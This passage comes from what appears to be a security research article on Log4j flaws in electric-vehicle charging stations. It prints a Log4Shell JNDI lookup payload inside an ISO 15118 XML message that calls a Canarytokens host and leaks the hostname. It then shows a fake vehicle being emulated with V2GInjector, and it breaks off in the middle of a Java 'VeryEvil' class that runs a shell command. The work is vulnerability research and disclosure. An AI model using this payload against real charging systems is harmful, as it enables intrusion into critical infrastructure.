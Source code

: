 
Finally, to quickly look if the vulnerability is exploitable, we made the following payload using the Canarytokens service, which has also recently gained more attention since the disclosure of Log4Shell:



> <?xml version="1.0" encoding="UTF-8"?><**ns4:supportedAppProtocolReq** xmlns:ns4="urn:iso:15118:2:2010:AppProtocol" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:ns3="http://www.w3.org/2001/XMLSchema"><**AppProtocol**>**<ProtocolNamespace**>${jndi:ldap://x${hostName}.L4J.36gy1a*********qu.canarytokens.com/a}</**ProtocolNamespace>****VersionNumberMajor**>2</**VersionNumberMajor**><**VersionNumberMinor**>0</**VersionNumberMinor**><**SchemaID**>10</**SchemaID**><**Priority**>1</**Priority**></**AppProtocol**></**ns4:supportedAppProtocolReq**
> 
> 
> 


It is convenient to use the token generated by Canarytokens as it will also send a notification should the vulnerability be triggered.


We then used the V2GInjector framework to emulate a fake EVCC or car and attack on the first state, as illustrated in Figure 3.






![Figure 3. Attacking the first state with V2GInjector](https://marvel-b1-cdn.bc0a.com/f00000000017219/www.trendmicro.com/content/dam/trendmicro/global/en/research/21/l/examining-log4j-vulnerabilities-in-connected-cars-and-charging-stations/figure%203%20v2g%20attack.jpg)
Figure 3. Attacking the first state with V2GInjector




After the SECC procedure, the framework (with the help of our V2Gdecoder) encoded the XML payload and sent it to the EVCC using the Vehicle-to-Grid Transfer Protocol (V2GTP) layer. The fake EVCC then sent the malicious payload, which caused the SECC application to freeze. Finally, we were directly notified by Canarytokens, as shown in Figure 4.






![Figure 4. Canarytokens’ alert for a Log4j vulnerability detection](https://marvel-b1-cdn.bc0a.com/f00000000017219/www.trendmicro.com/content/dam/trendmicro/global/en/research/21/l/examining-log4j-vulnerabilities-in-connected-cars-and-charging-stations/figure%204%20canarytokens%20alert.jpg)
Figure 4. Canarytokens’ alert for a Log4j vulnerability detection




Again, we note that intruding a V2G network is likely to happen after exploiting the HomePlug Green Phy keys collection flaws mentioned in [V2GInjector’s documentation](https://github.com/NCSC-NL/log4shell/tree/main/software).


We took this test a little further by executing code and writing a “VeryEvil” exploit:



> **public** **class** **VeryEvil** {  
> 
>     **static** {  
> 
>         **try** {  
> 
>             **String** [] cmd={"touch /tmp/choucroute"};  
> 
>             java.lang.Runtime.getRuntime().exec(cmd).waitFor();  
> 
>         }**catch** (Exception e){  
> 
>             e.printStackTrace();  
> 
>         }  
> 